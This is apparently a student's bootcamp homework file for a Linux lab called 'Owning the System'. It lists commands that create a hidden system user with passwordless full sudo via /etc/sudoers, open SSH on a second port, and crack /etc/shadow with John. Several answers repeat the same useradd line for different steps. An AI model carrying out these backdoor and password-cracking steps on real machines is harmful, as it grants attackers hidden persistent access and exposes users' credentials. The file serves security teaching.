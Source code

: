 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

    - `useradd -r -u 401 sysd`

2. Give your secret user a password: 

    ```
    passwd sysd
    ImAHax0r!
    ```
3. Give your secret user a system UID < 1000:

    - `useradd -r -u 401 sysd`

4. Give your secret user the same GID:

   - `useradd -r -u 401 sysd`

5. Give your secret user full `sudo` access without the need for a password:

   -  `echo "sysd ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`

6. Test that `sudo` access works without your password:

    ```bash
    sudo -l
    Matching Defaults entries for sysd on scavenger-hunt:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysd may run the following commands on scavenger-hunt:
    (ALL) NOPASSWD: ALL

    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 2222
    AddressFamily any
    ListenAddress 0.0.0.0
    ListenAddress ::

    Port 22
    AddressFamily any
    ListenAddress 0.0.0.0
    ListenAddress ::

    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

    - `$ sudo systemctl restart ssh`

2. Exit the `root` account:

    - `~.`

3. SSH to the target machine using your `sysd` account and port `2222`:re

    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:

    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

